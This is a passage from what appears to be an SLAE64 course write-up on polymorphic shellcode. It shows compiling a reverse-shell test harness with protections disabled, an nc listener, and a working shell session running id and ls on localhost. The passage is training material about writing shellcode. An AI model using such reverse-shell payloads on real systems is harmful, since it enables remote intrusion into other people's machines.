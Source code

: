 Now we compile the `C` program.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/3_tcpreverseshell$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must create a listener with `nc` on port `31337` and execute `shellcode` to connect back there.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~$ nc -lvnp 31337
Listening on [0.0.0.0] (family 0, port 31337)

```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/3_tcpreverseshell$ ./shellcode
Shellcode Length: 109

```

1<sup>st</sup> window again:

```shell
Connection from [127.0.0.1] port 31337 [tcp/*] accepted (family 2, sport 44436)
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
shellcode
shellcode-original
shellcode-original.c
shellcode.c
tcpreverseshell
tcpreverseshell-original
tcpreverseshell-original.nasm
tcpreverseshell-original.o
tcpreverseshell.nasm
tcpreverseshell.o
exit
geobour98@slae64-dev:~$ 
```

The shellcode is working, its size is `109` bytes and has been decreased by `9` bytes!

## Summary

The polymorphic versions of the shellcodes: `execve`, `tcpbindshell` and `tcpreverseshell` are succesfully created and working as the original ones. 

Next will be the custom crypter!
